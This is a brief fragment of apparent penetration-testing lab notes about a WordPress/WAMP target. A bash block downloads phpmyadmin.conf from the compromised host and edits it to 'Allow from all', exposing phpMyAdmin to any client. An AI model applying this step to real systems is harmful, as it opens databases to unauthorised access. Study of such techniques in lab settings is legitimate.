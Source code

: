 ![](4-exploitationassets/image-20230424124543517.png)

- Change WordPress `admin` password

```bash
cd C:\\wamp\\alias
download phpmyadmin.conf

# In another terminal modify the file
vim /root/Desktop/phpmyadmin.conf
# modify it by deleting the lines under "AllowOverride all" and insert
	Allow from all

# Write and close
```
